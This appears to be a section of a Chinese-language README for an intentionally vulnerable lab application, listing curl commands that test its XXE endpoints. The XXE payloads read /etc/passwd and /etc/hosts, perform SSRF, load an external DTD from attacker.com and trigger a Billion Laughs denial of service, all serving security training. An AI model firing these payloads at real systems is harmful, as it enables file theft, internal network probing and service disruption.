 ## 4. 📄 XXE (XML外部实体注入)

### API端点
```bash
# 获取XXE漏洞信息
curl -X GET http://localhost:8080/api/xxe/info

# 获取测试XML
curl -X GET http://localhost:8080/api/xxe/test-xml
```

### 文件读取攻击
```bash
# 基础文件读取
curl -X POST http://localhost:8080/api/xxe/vulnerable/dom4j \
  -H "Content-Type: application/xml" \
  -d '<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>'

# DocumentBuilder解析器攻击
curl -X POST http://localhost:8080/api/xxe/vulnerable/documentbuilder \
  -H "Content-Type: application/xml" \
  -d '<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/hosts">]><root>&xxe;</root>'
```

### SSRF通过XXE
```bash
# 通过XXE进行SSRF
curl -X POST http://localhost:8080/api/xxe/vulnerable/dom4j \
  -H "Content-Type: application/xml" \
  -d '<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/">]><root>&xxe;</root>'
```

### 参数实体攻击
```bash
# 参数实体注入
curl -X POST http://localhost:8080/api/xxe/vulnerable/dom4j \
  -H "Content-Type: application/xml" \
  -d '<!DOCTYPE root [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd"> %xxe;]><root></root>'
```

### 拒绝服务攻击 (Billion Laughs)
```bash
# 递归实体引用导致DoS
curl -X POST http://localhost:8080/api/xxe/vulnerable/dom4j \
  -H "Content-Type: application/xml" \
  -d '<!DOCTYPE root [<!ENTITY lol "lol"><!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">]><root>&lol2;</root>'
```

---
